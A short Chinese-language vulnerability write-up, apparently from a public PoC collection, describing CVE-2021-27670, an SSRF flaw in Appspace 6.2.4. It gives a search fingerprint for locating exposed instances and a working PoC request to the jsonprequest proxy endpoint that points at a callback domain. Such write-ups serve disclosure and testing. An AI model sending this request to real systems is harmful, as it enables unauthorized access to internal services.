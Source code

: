 # Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

```
Appspace 6.2.4
```

## 网络测绘

```
"Sign-in-to-Appspace-Core"
```

## 漏洞复现

登录页面为

![image-20220524140826821](images/202205241408911.png)

验证POC

```
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://db0bx.2lfmar.yourdomain.xyz
```

![image-20220524141221709](images/202205241412770.png)